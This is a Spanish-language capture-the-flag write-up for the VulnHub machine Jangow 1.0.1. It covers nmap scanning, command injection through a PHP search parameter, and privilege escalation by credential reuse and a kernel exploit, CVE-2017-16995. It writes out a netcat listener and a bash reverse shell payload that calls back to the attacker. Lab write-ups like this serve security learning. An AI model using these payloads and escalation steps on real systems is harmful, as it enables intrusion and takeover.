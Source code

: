 ```yaml
---
title: Jangow 1.0.1
date: 2024-07-24
categories: [WRITEUPS, VulnHub]
tags: []  # TAG names should always be lowercase
image: /assets/images/vulnhub/logo.png
---
```


En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos será un escaneo de puertos con *NMAP*, para comprobar cuales de ellos están abiertos.

```bash
nmap -p- --open -T5 192.168.1.154 -n -Pn -v
```

![picture](/assets/images/hackthebox/jangow1.png){: w="600" h="300" }

Vamos a lanzar otro escaneo a los puertos encontrados, pero esta vez, con los parámetros **-sV**, para comprobar las *versiones* de los servicios, y **-sC**, para lanzar una serie de *scripts* predeterminados de *NMAP* con los cuales podremos encontrar cosas interesantes, en el caso que las hubiera.

```bash
nmap -p21,80 -sV -sC 192.168.1.154 -v
```
Ha encontrado una ruta llamada **/site**.

![picture](/assets/images/hackthebox/jangow2.png){: w="600" h="300" }

Una vez dentro de **/site** vemos una página web.

![picture](/assets/images/hackthebox/jangow3.png)

---

## **Explotación**

Si clicamos dentro de la página web en el apartado de "**buscar**", no muestra contenido, pero en la URL nos aparece lo siguiente.

![picture](/assets/images/hackthebox/jangow4.png)

Al ser **"buscar"** un parámetro detras de un archivo **PHP**, y a continuación un signo "**=**", podríamos estar ante un **RCE** (*Remote Code Execution*), probamos a ejecutar comandos, y obtenemos resultado.

![picture](/assets/images/hackthebox/jangow5.png)

A continuación, la idea es obtener una **Reverse Shell**, que es la capacidad de poder obtener una **Shell** en nuestra máquina local y poder ejecutar comandos, para ello, nos pondremos en escucha por un puerto con un **Listener**.

```bash
nc -nlvp 443
```

Y enviaremos desde el navegador la **Reverse Shell**, añadiendo a la *URL* lo siguiente.

```bash
bash -c "bash -i >%26 /dev/tcp/'Nuestra IP'/443 0>%261"
```

Ejecutamos, y estamos dentro de la máquina.

![picture](/assets/images/hackthebox/jangow6.png){: w="600" h="300" }

----

## **Escalada de privilegios**

Buscando por la máquina encuentro en la ruta** /var/www/html** un archivo oculto llamado **.backup**, el cual contiene las *credenciales* de una base de datos de MySQL.

![picture](/assets/images/hackthebox/jangow7.png){: w="600" h="300" }

En la ruta */home* encontramos la carpeta personal del usuario **jangow01**, probamos a migrar a ese usuario con la contraseña encontrada y es correcta.

![picture](/assets/images/hackthebox/jangow8.png)

En la carpeta personal encontramos la primera **flag**.

![picture](/assets/images/hackthebox/jangow9.png)

Si mostramos la versión del **Kernel** de **Linux**, y buscamos en internet, encontramos la vulnerabilidad [**CVE-2017-16995**](https://www.exploit-db.com/exploits/45010) para poder escalar privilegios.

![picture](/assets/images/hackthebox/jangow10.png)

He intentado descargármela desde el servidor con **Wget**, pero no funciona, para poder cargarlo en el servidor, nos lo descargaremos en la máquina local y lo subiremos mediante **FTP**.

Para poder subirlo, nos tendremos que mover al directorio personal de **jangow01**, ya que el directorio establecido para **FTP** es */var/www* y no nos dejará subir nada ya que en este directorio no tenemos permisos.

![picture](/assets/images/hackthebox/jangow11.png){: w="650" h="350" }

Una vez subido comprobamos en que lenguaje de programación está escrito, y es en **C**, le cambio el nombre y lo compilamos.

![picture](/assets/images/hackthebox/jangow12.png)

Ejecutamos el *exploit*, escalamos privilegios, y podemos leer la segunda **flag**.

![picture](/assets/images/hackthebox/jangow13.png){: w="600" h="300" }


